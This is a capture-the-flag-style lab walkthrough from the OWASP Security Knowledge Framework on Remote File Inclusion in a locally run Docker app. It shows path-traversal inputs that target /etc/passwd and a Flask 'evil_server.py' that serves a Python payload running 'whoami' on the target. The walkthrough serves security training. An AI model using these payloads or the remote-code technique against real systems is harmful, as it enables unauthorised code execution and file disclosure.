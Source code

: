 # Remote File Inclusion

## Running the app on Docker

```
$ sudo docker pull blabla1337/owasp-skf-lab:rfi
```

```
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:rfi
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Reconnaissance

Remote File Inclusion (also known as RFI) is the process of including files, that are supplied into the application and loaded from an external (remote) source, through the exploiting of vulnerable inclusion procedures implemented in the application. This vulnerability occurs, for example, when a page receives, as input, the path to the file that has to be included and this input is not properly sanitized, allowing directory traversal characters (such as dot-dot-slash) to be injected. Although most examples point to vulnerable PHP scripts, we should keep in mind that it is also common in other technologies such as JSP, ASP and others.

Warning: To successfully test for this flaw, the tester needs to have knowledge of the system being tested and the location of the files being requested. There is no point requesting /etc/passwd from an IIS web server.

Some Examples:

```
http://example.com/getUserProfile.jsp?item=../../../../etc/passwd

Cookie: USER=1826cc8f:PSTYLE=../../../../etc/passwd
```

The File Inclusion vulnerability allows an attacker to include a file, usually exploiting a "dynamic file inclusion" mechanisms implemented in the target application. The vulnerability occurs due to the use of user-supplied input without proper validation.

This can lead to something as outputting the contents of the file, but depending on the severity, it can also lead to:

Code execution on the web server

Code execution on the client-side such as JavaScript

which can lead to other attacks such as:

Cross-site scripting (XSS)

Denial of Service (DoS)

Sensitive Information Disclosure

Let us see how can we exploit the file inclusion vulnerability in a real world scenario, the application here allows us to run 2 commands from the drop down list. One is running Date and the other is Calendar.

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/RFI/1.png)

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/RFI/2.png)

When we will have a look in our intercepting proxy we can see that the application uses a predefined file that contains the command to execute and prints the results of it.

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/RFI/3.png)

## Exploitation

To exploit this Remote File Inclusion vulnerability, let's use Python Flask to create a small webserver that serves your file. We name it evil_server.py

```python
from flask import Flask, request, url_for, render_template, redirect


app = Flask(__name__)
app.config['DEBUG'] = True

@app.route("/evil.py")
def start():
    return render_template("evil.py")

if __name__ == "__main__":
    app.run(host='0.0.0.0', port=1337)
```

Then we create our folder template where we will put our evil.py file with the below content .

```python
os.popen('whoami').read()
```

Now we are ready to start our evil_server.py and try to make the application load our evil python file and hopefully it will get executed.

```
$ pip install flask
$ python evil_server.py
```

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/RFI/4.png)

{% hint style="success" %}
Success! As we observed, we can include our own files through RFI.
{% endhint %}

## Additional sources

[https://www.owasp.org/index.php/Testing_for_Remote_File_Inclusion](https://www.owasp.org/index.php/Testing_for_Remote_File_Inclusion)
